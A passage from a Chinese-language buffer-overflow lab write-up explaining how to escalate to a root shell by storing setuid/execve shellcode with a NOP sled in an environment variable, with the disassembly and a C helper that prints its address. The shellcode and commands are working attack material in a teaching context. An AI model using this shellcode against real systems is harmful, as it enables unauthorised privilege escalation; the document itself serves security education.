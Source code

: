 运行 exploit.py 生成攻击缓冲区的字符串 badfile，然后运行程序 stack。

![image](/001/07.png)

可以看到攻击成功。

### 4.2 将提权 shell 插入环境变量

我们可以先将写好的 shell 放在环境变量中，然后通过程序得到环境变量的地址。我们直接将返回地址覆盖为该环境变量的地址即可。

使用如下命令创建提权 shell 环境变量：

```
export EGG=$(python -c "print '\x90'*1000 + '\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
```

上述 shell 对应的汇编代码如下：

```
setuid(0)

 8049380:       6a 17                   push   $0x17
 8049382:       58                      pop    %eax
 8049383:       31 db                   xor    %ebx,%ebx
 8049385:       cd 80                   int    $0x80

execve("/bin//sh", ["/bin//sh"], NULL)

 8049387:       6a 0b                   push   $0xb
 8049389:       58                      pop    %eax
 804938a:       99                      cltd   
 804938b:       52                      push   %edx
 804938c:       68 2f 2f 73 68          push   $0x68732f2f
 8049391:       68 2f 62 69 6e          push   $0x6e69622f
 8049396:       89 e3                   mov    %esp,%ebx
 8049398:       52                      push   %edx
 8049399:       53                      push   %ebx
 804939a:       89 e1                   mov    %esp,%ecx
 804939c:       cd 80                   int    $0x80
```

可以通过编写C程序得到创建的环境变量的地址。注意：环境变量地址会根据程序文件名进行偏移。**故编写的程序应和待攻击程序的文件名长度一致**，这样得到的环境变量地址也是一致的，否则需要计算地址的偏移。

```cpp
//export EGG=$(python -c "print '\x90'*1000 + '\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
#include <stdio.h>
#include <stdlib.h>
int main(void)
{
	printf("Egg address: %p ",getenv("EGG"));
}
```

由于未开启栈地址随机化，所以环境变量的地址不会改变。需要注意的是，如果题目的代码预先清空了所有的环境变量，则该方法不能使用。
